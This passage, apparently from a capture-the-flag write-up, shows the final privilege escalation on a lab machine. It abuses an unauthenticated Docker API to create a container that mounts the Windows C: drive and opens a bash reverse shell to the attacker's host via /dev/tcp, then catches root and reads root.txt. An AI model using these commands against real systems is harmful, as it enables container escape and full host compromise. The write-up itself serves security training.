  -o create.json
```

```shell
www-data@821fbd6a43fa:~/html/cacti$ curl -s -X POST http://192.168.65.7:2375/containers/create \
  -H "Content-Type: application/json" \
  -d '{
        "Image":"docker_setup-nginx-php:latest",
        "Cmd":["bash","-c","bash -i >& /dev/tcp/10.10.16.21/6969 0>&1"],
        "HostConfig":{
          "Binds":["/mnt/host/c:/host_root"]
        }
      }' \
<X POST http://192.168.65.7:2375/containers/create \
>   -H "Content-Type: application/json" \
>   -d '{
>         "Image":"docker_setup-nginx-php:latest",
>         "Cmd":["bash","-c","bash -i >& /dev/tcp/10.10.16.21/6969 0>&1"],
>         "HostConfig":{
>           "Binds":["/mnt/host/c:/host_root"]
>         }
>       }' \
> 
  -o create.json
```

From within the `create.json` we had to grab the `ID` and then use it to start the  `Container`.

```shell
www-data@821fbd6a43fa:~/html/cacti$ cat create.json
cat create.json
{"Id":"fdd31f8cbabd91a9bcf0531768fd6b9bcebfcf5c2da2da459976ce1ee779cd11","Warnings":[]}
```

```shell
www-data@821fbd6a43fa:~/html/cacti$ curl -X POST \
  -d '' \
  http://192.168.65.7:2375/containers/fdd31f8cbabd91a9bcf0531768fd6b9bcebfcf5c2da2da459976ce1ee779cd11/start
> curl -X POST \
>   -d '' \
> 
<0531768fd6b9bcebfcf5c2da2da459976ce1ee779cd11/start
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
```

And right after that we got a `callback` as `root`.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 6969
listening on [any] 6969 ...
connect to [10.10.16.21] from (UNKNOWN) [10.129.6.9] 51071
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@fdd31f8cbabd:/var/www/html#
```

```shell
root@fdd31f8cbabd:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
```

By checking the available `mounts` we noticed `C:\ on /host_root` and so we had successfully `escaped` the `WSL`.

```shell
root@fdd31f8cbabd:/var/www/html# mount
mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/373/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/364/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/363/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/362/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/361/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/360/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/359/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/358/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/331/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/330/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/196/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/195/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/194/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/193/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/192/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/191/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/190/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/189/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/188/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/187/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/186/fs:/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/185/fs,upperdir=/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/374/fs,workdir=/var/lib/desktop-containerd/daemon/io.containerd.snapshotter.v1.overlayfs/snapshots/374/work)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
sysfs on /sys type sysfs (ro,nosuid,nodev,noexec,relatime)
cgroup on /sys/fs/cgroup type cgroup2 (ro,nosuid,nodev,noexec,relatime)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
C:\ on /host_root type 9p (rw,noatime,aname=drvfs;path=C:\;uid=0;gid=0;metadata;symlinkroot=/mnt/host/,cache=5,access=client,msize=65536,trans=fd,rfd=5,wfd=5)
/dev/sde on /etc/resolv.conf type ext4 (rw,relatime)
/dev/sde on /etc/hostname type ext4 (rw,relatime)
/dev/sde on /etc/hosts type ext4 (rw,relatime)
proc on /proc/bus type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/fs type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/irq type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sys type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sysrq-trigger type proc (ro,nosuid,nodev,noexec,relatime)
tmpfs on /proc/acpi type tmpfs (ro,relatime)
tmpfs on /proc/interrupts type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/kcore type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/keys type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/latency_stats type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/timer_list type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/scsi type tmpfs (ro,relatime)
tmpfs on /sys/firmware type tmpfs (ro,relatime)
```

```shell
root@fdd31f8cbabd:/var/www/html# ls /
ls /
bin
boot
dev
etc
home
host_root
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
```

```shell
root@fdd31f8cbabd:/var/www/html# ls -la /host_root/
ls -la /host_root/
ls: cannot access '/host_root/DumpStack.log.tmp': Permission denied
ls: cannot access '/host_root/pagefile.sys': Permission denied
total 4
drwxrwxrwx 1 root root 4096 Nov 11 12:49 $RECYCLE.BIN
drwxrwxrwx 1 root root 4096 Dec  2 12:08 $WinREAgent
drwxrwxrwx 1 root root 4096 Dec  2 12:02 .
drwxr-xr-x 1 root root 4096 Dec  6 21:49 ..
lrwxrwxrwx 1 root root   17 Mar 24  2025 Documents and Settings -> /mnt/host/c/Users
-????????? ? ?    ?       ?            ? DumpStack.log.tmp
drwxrwxrwx 1 root root 4096 Apr  1  2024 PerfLogs
drwxrwxrwx 1 root root 4096 Nov  3 23:00 Program Files
drwxrwxrwx 1 root root 4096 Apr  1  2024 Program Files (x86)
drwxrwxrwx 1 root root 4096 Nov  3 23:00 ProgramData
drwxrwxrwx 1 root root 4096 Mar 24  2025 Recovery
d--x--x--x 1 root root 4096 Mar 24  2025 System Volume Information
drwxrwxrwx 1 root root 4096 Nov  3 11:18 Users
drwxrwxrwx 1 root root 4096 Dec  2 16:08 Windows
drwxrwxrwx 1 root root 4096 Mar 24  2025 Windows.old
drwxrwxrwx 1 root root 4096 Nov 11 17:20 inetpub
-????????? ? ?    ?       ?            ? pagefile.sys
```

## root.txt

```shell
root@fdd31f8cbabd:/var/www/html# cat /host_root/Users/Administrator/Desktop/root.txt
<cat /host_root/Users/Administrator/Desktop/root.txt
3047b8813e7047e7bc399fb41bc0ae47
```
